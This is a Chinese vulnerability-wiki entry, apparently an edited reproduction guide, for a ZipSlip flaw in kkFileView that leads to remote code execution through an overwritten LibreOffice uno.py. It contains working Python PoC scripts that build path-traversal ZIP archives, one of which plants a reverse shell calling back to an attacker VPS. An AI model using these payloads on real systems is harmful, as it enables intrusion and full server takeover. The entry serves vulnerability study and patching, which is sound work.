







# kkFileView-ZipSlip-远程命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：kkFileView与LibreOffice转换链
- 文献类型：ZipSlip到代码执行复现
- 版本、权限及部署边界：恶意ZIP预览写文件，再触发ODT转换；需要应用可写LibreOffice uno.py路径，文中4.2.0至4.4.0-beta
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 环境却声称kkFileView3.4.0，与影响4.2+及4.3目录链接矛盾，疑3.4/4.3转置须核验
2. 简介4.4.0-beta以前与表格包含beta边界不一致
3. 任意路径写受服务账号权限，覆盖uno.py到RCE还依赖LibreOffice版本、路径与加载行为，不能概括所有部署
4. PoC以追加模式建ZIP且直接破坏库文件，实验应说明备份恢复；无PoC执行
5. 提供issue、Vulhub和修复提交可追溯，需补正式修复发布版；迁Web服务，别误归LibreOffice单独漏洞

### 操作风险

任意路径写受服务账号权限，覆盖uno.py到RCE还依赖LibreOffice版本、路径与加载行为，不能概括所有部署

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/kekingcn/kkFileView/issues/553>
- 原文参考链接（未重新核验）：<https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC>
- 原文参考链接（未重新核验）：<http://your-ip:8012`即可查看到首页>
- 原文参考链接（未重新核验）：<https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/poc.py>
- 原文参考链接（未重新核验）：<https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/sample.odt>
- 原文参考链接（未重新核验）：<https://github.com/kekingcn/kkFileView/commit/421a2760d58ccaba4426b5e104938ca06cc49778>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

kkFileView 是使用 Spring Boot 搭建的文档在线预览解决方案，能够支持多种主流办公文档的在线预览，如 doc、docx、xls、xlsx、ppt、pptx、pdf、txt、zip、rar 等格式。此外，还可以预览图片、视频、音频等多种类型的文件。

在 kkFileView 4.4.0-beta 以前，存在一处 ZipSlip 漏洞。攻击者可以利用该漏洞，向服务器任意目录下写入文件，导致任意命令执行漏洞。

参考链接：

- https://github.com/kekingcn/kkFileView/issues/553
- https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC

## 披露时间

```
2024-04-15
```

## 漏洞影响

```
v4.2.0 <= kkFileView <= v4.4.0-beta
```

## 环境搭建

Vulhub 执行如下命令启动一个 kkFileView 3.4.0 服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8012`即可查看到首页。




## 漏洞复现

目标在使用 odt 转 pdf 时会调用系统的 Libreoffice，而该进程会调用库中的 `uno.py` 文件，因此可以覆盖 `uno.py` 文件的内容实现 RCE。

首先，修改 [poc.py](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/poc.py)：

```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'vulhub'
        binary2 = b"import os\nos.system('touch /tmp/success')\n"
        zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
        # info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

执行 `poc.py`，生成 POC 文件，`test.zip` 将被写入当前目录。

```
python poc.py
```

然后，使用 kkFileView 服务上传`test.zip`：




点击`test.zip`的“预览”按钮，可以看到 zip 压缩包中的文件列表：




最后，上传任意一个 odt 文件，例如 [sample.odt](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/sample.odt)，发起 Libreoffice 任务：




点击`sample.odt`的“预览”按钮，触发代码执行漏洞：




可见，`touch /tmp/success`已经成功被执行：




反弹 shell：

```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'whoami'
        binary2 = b'import socket,subprocess,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("<your-vps-ip>",8888));os.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\np=subprocess.call(["/bin/sh","-i"])\n'
        zipFile = zipfile.ZipFile("exp.zip", "a", zipfile.ZIP_DEFLATED)
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```




## 漏洞修复

- https://github.com/kekingcn/kkFileView/commit/421a2760d58ccaba4426b5e104938ca06cc49778


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
